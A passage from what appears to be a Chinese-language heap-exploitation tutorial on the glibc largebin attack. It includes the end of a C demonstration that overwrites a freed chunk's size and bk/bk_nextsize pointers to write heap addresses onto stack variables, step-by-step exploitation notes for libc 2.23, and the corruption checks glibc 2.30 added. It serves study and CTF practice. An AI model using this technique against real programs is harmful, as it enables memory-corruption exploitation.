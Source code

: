 ```plain
    fprintf(stderr, "Now emulating a vulnerability that can overwrite the freed second large chunk's \"size\""
                    " as well as its \"bk\" and \"bk_nextsize\" pointers\n");
    fprintf(stderr, "Basically, we decrease the size of the freed second large chunk to force malloc to insert the freed third large chunk"
                    " at the head of the large bin freelist. To overwrite the stack variables, we set \"bk\" to 16 bytes before stack_var1 and"
                    " \"bk_nextsize\" to 32 bytes before stack_var2\n\n");

    p2[-1] = 0x3f1;
    p2[0] = 0;
    p2[2] = 0;
    p2[1] = (unsigned long)(&stack_var1 - 2);
    p2[3] = (unsigned long)(&stack_var2 - 4);

    //------------------------------------

    malloc(0x90);

    fprintf(stderr, "Let's malloc again, so the freed third large chunk being inserted into the large bin freelist."
                    " During this time, targets should have already been rewritten:\n");

    fprintf(stderr, "stack_var1 (%p): %p\n", &stack_var1, (void *)stack_var1);
    fprintf(stderr, "stack_var2 (%p): %p\n", &stack_var2, (void *)stack_var2);

    return 0;
}
```

这里我们只介绍各版本中 largebin attack 的效果

#### libc2.23

效果：向任意两个地址写入分别写入一个堆地址

具体利用思路：准备好两个大小不同的 largebin chunk，先将 size 较小的 chunk 放入 largebin 中，较大的放在 unsortedbin 中，改 size 较小的 chunk 的 bk 指针为**目标地址 1-0x10** , bk\_nextsize 为**目标地址 2-0x20**，然后将 size 较大的 chunk 链入 large bin 中，最终效果是使得较大 chunk 的 bk 指针指向目标地值 1-0x10，bk\_nextsize 指针指向目标地址 2-0x20，同时在两个目标地址处写上较大 chunk 的地址，

#### libc2.31

参考：[glibc-2.29 后 large bin attack 原理](https://www.anquanke.com/post/id/189848#h2-1)

更新

glibc2.30 对于 unsortedbin 和 largebin 的检查都更加严格了，unsortedbin attack 直接寿终正寝了，largebin attack 的效果也被腰斩了一半

libc2.30 largebin 新增检查的源码

```plain
if (__glibc_unlikely (fwd->bk_nextsize->fd_nextsize != fwd)) 
    malloc_printerr ("malloc(): largebin double linked list corrupted (nextsize)");

if (bck->fd != fwd) 
    malloc_printerr ("malloc(): largebin double linked list corrupted (bk)");
```
